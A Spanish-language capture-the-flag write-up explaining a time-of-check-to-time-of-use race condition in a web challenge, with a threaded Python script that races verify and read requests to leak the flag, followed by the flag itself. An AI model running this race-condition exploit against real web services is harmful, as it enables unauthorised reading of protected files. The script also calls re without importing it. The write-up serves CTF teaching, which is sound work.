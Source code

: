 Por ejemplo:

Si consideramos esta aplicación web, la aplicación permite verificar si la flag ha sido modificada, para ello tiene que tener privilegios de lectura del archivo. Por lo tanto si conseguimos hacer una petición para leer el fichero de la flag después de que sea abierto por el proceso de verificación para ver si se ha modificado, y antes de que este mismo proceso cierre el recurso, podremos leer la flag.

¿Por qué pasa esto?

Este tipo de ataques es posible porque los servidores web como Apache procesan las peticiones de manera asíncrona. Eso quiere decir, que si dos peticiones llegan más o menos al mismo tiempo (en un CPU multicore), el resultado será procesado como en el mostrado a continuación:

<img src="https://raw.githubusercontent.com/M3moryLeaks/ctf/master/2019/UAH/Exploiting/Images/toctou.png" width=350>

Para hacer que coincidan las peticiones justo una detrás de la otra, tendremos que crear un script con hilos que nos permita realizar varias peticiones, hasta que podamos leer la flag.

[@KaoRz](https://github.com/KaoRz) fue uno de los primeros en resolver este reto y consiguió llegar a la final. Su script lo pueden encontrar en [este gist que publicó](https://gist.github.com/KaoRz/44ed827c258054577fc59cd70a9f381d).

<img src="https://raw.githubusercontent.com/M3moryLeaks/ctf/master/2019/UAH/Exploiting/Images/chicote.jpg" width=350>


```python
import os
import requests
import threading

url = 'http://ctf.alphasec.xyz:5000/'
s = requests.Session()

def verify():
    for i in range(10):
        res = s.get(url+'verify')

def readFlag():
    for i in range(10):
      res_read = s.get(url+'read')
      if 'flag' in res_read.text:
          flag = re.search(r"(flag{\w+})", res_read.text)
          print("\n[!] The flag is: {}".format(flag.group(1)))

try:
   verify_thread = threading.Thread(target = verify)
   readFlag_thread = threading.Thread(target = readFlag)
   verify_thread.start()
   readFlag_thread.start()
except Exception as e:
    pass
```

**Flag:** flag{yokomoenyakitoro}
